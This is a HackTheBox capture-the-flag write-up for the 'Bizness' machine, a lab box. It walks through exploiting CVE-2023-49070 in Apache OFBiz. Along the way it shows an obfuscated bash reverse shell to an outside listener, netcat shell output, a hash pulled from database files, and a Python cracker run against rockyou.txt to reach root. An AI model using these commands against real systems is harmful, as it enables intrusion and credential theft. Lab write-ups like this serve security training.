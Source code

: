# Bizness - HackTheBox - Writeup
Linux, 20 Base Points, Easy

![info.JPG](images/info.JPG)

## Machine

![‏‏Bizness.JPG](images/Bizness.JPG)
 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, `80`, and `443`.

***User***: Identified Apache OFBiz as vulnerable to `CVE-2023-49070` and obtained Remote Code Execution (RCE) as the `ofbiz` user.

***Root***: Discovered the hashed password in the `.dat` file along with instructions on its creation in the `docker-entrypoint.sh` file. Decrypted the password, revealing the `root` password.

![pwn.JPG](images/pwn.JPG)


## Bizness Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Bizness]
└──╼ $ nmap -sV -sC -oA nmap/Bizness 10.10.11.252
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-13 21:54 IST
Nmap scan report for 10.10.11.252
Host is up (0.075s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e21d5dc2e61eb8fa63b242ab71c05d3 (RSA)
|   256 3911423f0c250008d72f1b51e0439d85 (ECDSA)
|_  256 b06fa00a9edfb17a497886b23540ec95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

Observing https://bizness.htb/, we see that the following web page is hosted:

![port443.JPG](images/port443.JPG)

During enumeration with `dirbuster`, we discovered the following webpage hosted at https://bizness.htb/webtools/control/xmlrpc:

![xmlrpc.JPG](images/xmlrpc.JPG)

The logo clearly indicates it is `Apache OFBiz. Release 18.12`.

Apache OFBiz is an Enterprise Resource Planning (ERP) system, a versatile Java-based web framework widely used across industries..

We can leverage [CVE-2023-49070](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) to achieve Remote Code Execution (RCE):
```console
┌─[evyatar9@parrot]─[/hackthebox/Bizness/Apache-OFBiz-Authentication-Bypass]
└──╼ $ python3 exploit.py --url https://bizness.htb/ --cmd 'bash -c echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC80MjQyIDA+JjEK|base64${IFS}-d|bash'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.

```

Where `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC80MjQyIDA+JjEK` is `bash -i >& /dev/tcp/10.10.14.14/4242 0>&1"`.

This results in obtaining a reverse shell as the `ofbiz` user:
```console
┌─[evyatar9@parrot]─[/hackthebox/Bizness/Apache-OFBiz-Authentication-Bypass]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from bizness.htb [10.10.11.252] 49120
bash: cannot set terminal process group (736): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ whoami
whoami
ofbiz
ofbiz@bizness:/opt/ofbiz$ cat /home/ofbiz/user.txt
cat /home/ofbiz/user.txt
afeb55d402e278adc94d020d5aa40b3e
```

And we get the user flag `afeb55d402e278adc94d020d5aa40b3e`.


### Root

By searching for the text `password`, we located several files:
```console
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ cat c54d0.dat
cat c54d0.dat
          <ofbiz-ser>
                <map-HashMap>
                    <map-Entry>
                        <map-Key>
                            <std-String value="recurrenceInfoId"/>
                        </map-Key>
                        <map-Value>
                            <std-String value="400"/>
                        </map-Value>
                    </map-Entry>
                </map-HashMap>
            </ofbiz-ser>
			<?xml version="1.0" encoding="UTF-8"?><ofbiz-ser>
    <map-HashMap>
        <map-Entry>
            <map-Key>
                <std-String value="updatedUserLogin"/>
            </map-Key>
            <map-Value>
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
            </map-Value>

```

We can see the `currentPassword` `currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I"`.

On `docker-entrypoint.sh` we found:
```console
ofbiz@bizness:/opt/ofbiz$ cat docker/docker-entrypoint.sh
...
load_admin_user() {
  if [ ! -f "$CONTAINER_ADMIN_LOADED" ]; then
    TMPFILE=$(mktemp)

    # Concatenate a random salt and the admin password.
    SALT=$(tr --delete --complement A-Za-z0-9 </dev/urandom | head --bytes=16)
    SALT_AND_PASSWORD="${SALT}${OFBIZ_ADMIN_PASSWORD}"

    # Take a SHA-1 hash of the combined salt and password and strip off any additional output form the sha1sum utility.
    SHA1SUM_ASCII_HEX=$(printf "$SALT_AND_PASSWORD" | sha1sum | cut --delimiter=' ' --fields=1 --zero-terminated | tr --delete '\000')

    # Convert the ASCII Hex representation of the hash to raw bytes by inserting escape sequences and running
    # through the printf command. Encode the result as URL base 64 and remove padding.
    SHA1SUM_ESCAPED_STRING=$(printf "$SHA1SUM_ASCII_HEX" | sed -e 's/\(..\)\.\?/\\x\1/g')
    SHA1SUM_BASE64=$(printf "$SHA1SUM_ESCAPED_STRING" | basenc --base64url --wrap=0 | tr --delete '=')

    # Concatenate the hash type, salt and hash as the encoded password value.
    ENCODED_PASSWORD_HASH="\$SHA\$${SALT}\$${SHA1SUM_BASE64}"

    # Populate the login data template
    sed "s/@userLoginId@/$OFBIZ_ADMIN_USER/g; s/currentPassword=\".*\"/currentPassword=\"$ENCODED_PASSWORD_HASH\"/g;" framework/resources/templates/AdminUserLoginData.xml >"$TMPFILE"

    # Load data from the populated template.
    /ofbiz/bin/ofbiz --load-data "file=$TMPFILE"

    rm "$TMPFILE"

    touch "$CONTAINER_ADMIN_LOADED"
  fi
}

```

According to the `docker-entrypoint.sh` file, we can deduce that the password format is `ENCODED_PASSWORD_HASH="\$SHA\$${SALT}\$${SHA1SUM_BASE64}"`

To crack it, we can employ the following `python` script:
```python
import hashlib, uuid, base64

salt = "d".encode('utf-8')
currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I"

with open("./rockyou.txt","r") as rockyou:
    lines = rockyou.readlines()
    for password in lines:
        encoded_password = password.strip().encode('utf-8')
        hashed_password = hashlib.sha1(salt + encoded_password).digest()
        b64_password = base64.urlsafe_b64encode(hashed_password).decode('utf-8').replace('+','.').replace('=','')
        compare_string = f"$SHA$d${b64_password}"

        if compare_string == currentPassword:
            print(f"The password is {password}")
            break

```

Executing the script revealed the password `monkeybizness`.

We can utilize this password to escalate privileges to `root`:
```console
ofbiz@bizness:/opt/ofbiz$ su -
su -
Password: monkeybizness
cat /root/root.txt
c3c52df2cea0f6a4eabe321ca2384da8
```

PDF password
```console
$y$j9T$pJW9XfkWvA4ozHorBy1kA1$MMNByIaVvdq4YrIpvYDEIfckbiKog11HxKcxJkAZLcA
```